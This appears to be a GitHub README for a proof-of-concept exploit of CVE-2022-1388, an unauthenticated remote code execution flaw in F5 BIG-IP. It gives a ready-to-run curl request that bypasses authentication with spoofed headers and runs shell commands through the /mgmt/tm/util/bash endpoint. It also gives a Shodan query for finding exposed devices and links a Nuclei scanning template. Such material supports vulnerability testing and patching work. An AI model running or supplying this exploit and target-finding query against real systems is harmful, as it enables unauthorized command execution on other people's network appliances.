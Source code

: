 # CVE-2022-1388
F5 BIG-IP Unauthenticated RCE   
&nbsp;

## POC:
Use following POST request to execute ```id``` command.
```
curl -i -s -k -X $'POST' \
    -H $'Host: localhost' -H $'Connection: keep-alive, X-F5-Auth-Token' -H $'Authorization: Basic YWRtaW46' -H $'X-F5-Auth-Token: a' -H $'Content-Length: 39' \
    --data-binary $'{\"command\":\"run\",\"utilCmdArgs\":\"-c id\"}' \
    $'https://IP_HERE/mgmt/tm/util/bash'
 ```
 ![poc](./poc.jpg)
&nbsp;

## Shodan Query:
```
http.title:"BIG-IP&reg;-+Redirect" +"Server" 
```
&nbsp;

## Nuclei Template:
[CVE-2022-1388.yaml](./CVE-2022-1388.yaml)
</br>&nbsp;

## Credit
[AnnaViolet20](https://twitter.com/AnnaViolet20/status/1523564632140509184?s=20&t=dA5mPYazYHS6MuaFAaRvCw)'s tweet.</br>
[numanturle](https://github.com/numanturle/CVE-2022-1388)'s github page.
